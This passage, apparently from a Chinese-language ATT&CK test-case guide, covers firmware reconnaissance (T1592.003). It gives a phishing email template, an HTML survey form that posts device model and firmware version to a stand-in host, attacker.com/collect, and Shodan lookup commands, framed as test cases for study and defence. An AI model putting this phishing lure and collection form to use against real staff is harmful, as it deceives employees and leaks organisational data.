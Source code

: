 #### 测试案例 3：钓鱼收集固件信息
**关联技术**：T1592.003（固件信息收集）、T1566（钓鱼）  
**说明**：  
- 攻击者通过伪造的邮件或调查问卷，诱导员工泄露固件版本或硬件信息。  
**示例操作**：
- 发送伪造邮件：  
  ```
  Subject: 硬件支持调查
  Body: 请提供您设备的固件版本（如 BIOS/UEFI）和型号以协助技术支持：http://fake-survey.com
  ```
- 伪造调查页面（HTML 伪代码）：  
  ```html
  <form action="http://attacker.com/collect" method="POST">
      设备型号: <input type="text" name="model">
      固件版本: <input type="text" name="firmware">
      <input type="submit" value="提交">
  </form>
  ```
**输出示例**（攻击者服务器日志）：
```
POST /collect HTTP/1.1
model=Dell PowerEdge R740&firmware=BIOS v1.9.2
```
**说明**：  
- 钓鱼攻击可直接收集固件信息。  
- 关联 T1592.003：通过钓鱼获取固件信息。

#### 测试案例 4：查询公开技术数据库
**关联技术**：T1592.003（固件信息收集）  
**说明**：  
- 攻击者通过公开的技术数据库（如 Shodan、Censys）或供应商网站查询目标组织的固件信息。  
**示例操作**：
```bash
# 在 Shodan 查询目标 IP 的固件信息
shodan host 192.168.1.10
# 或访问供应商网站（如 Dell、HP）搜索固件更新日志
```
**输出示例**：
```
IP: 192.168.1.10
Device: Dell PowerEdge R740
Firmware: BIOS v1.9.2
```
**说明**：  
- 公开数据库或供应商网站可能暴露固件版本。  
- 关联 T1592.003：通过技术数据库获取固件信息。

## 测试复现

### 外部场景（公开信息收集）
1. **环境**：Kali Linux 或任何带有浏览器的系统。
2. **步骤**：
   - 使用 Shodan 查询目标 IP：`shodan host 192.168.1.10`。
   - 搜索目标组织的职位发布或社交媒体，提取固件相关关键词（如“BIOS”、“UEFI”）。
   - 访问供应商网站（如 Dell、HP）查看固件更新日志。
3. **预期结果**：返回固件版本或硬件信息（如 `Dell BIOS v1.9.2`）。
